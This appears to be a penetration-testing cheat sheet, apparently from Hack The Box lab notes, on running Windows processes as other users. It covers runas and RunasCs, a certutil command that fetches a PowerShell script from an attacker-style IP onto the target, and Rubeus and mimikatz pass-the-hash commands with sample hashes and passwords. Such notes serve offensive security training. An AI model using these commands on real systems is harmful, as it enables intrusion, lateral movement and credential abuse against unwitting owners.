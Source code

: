 Run specific processes with different permissions than the user's current logon provides using explicit credentials.
## runas on CMD
``` cmd
runas /netonly /user:Domain\UserName powershell
runas /user:<domain>\<user> cmd.exe
runas /user:Administrator cmd.exe
```
## _RunasCs_ utility
This tool is an improved and open version of windows builtin _runas.exe_ that solves some limitations:
Download [RunasCs](https://github.com/antonioCoco/RunasCs/tree/master)

``` shell
wget https://github.com/antonioCoco/RunasCs/raw/refs/heads/master/Invoke-RunasCs.ps1
```
On machine PowerShell
``` powershell
certutil -urlcache -split -f http://192.168.45.155/Invoke-RunasCs.ps1 C:\temp\Invoke-RunasCs.ps1
Import-Module .\Invoke-RunasCs.ps1
Invoke-RunasCs <Username> <Password> "Command"
Invoke-RunasCs Admin password "whoami"
Invoke-RunasCs g.jarvis P@ssword123 "whoami"
```
Other tools such as [Rubeus](https://github.com/GhostPack/Rubeus) and [mimikatz](https://github.com/gentilkiwi/mimikatz) can be passed cleartext credentials or an NTLM password hash.
## CMD - Rubeus.exe Cleartext Credentials

```cmd
rubeus.exe asktgt /user:jackie.may /domain:htb.local /dc:10.10.110.100 /rc4:ad11e823e1638def97afa7cb08156a94
```

## CMD - Mimikatz.exe Cleartext Credentials

```cmd
mimikatz.exe sekurlsa::pth /domain:htb.local /user:jackie.may /rc4:ad11e823e1638def97afa7cb08156a94
```
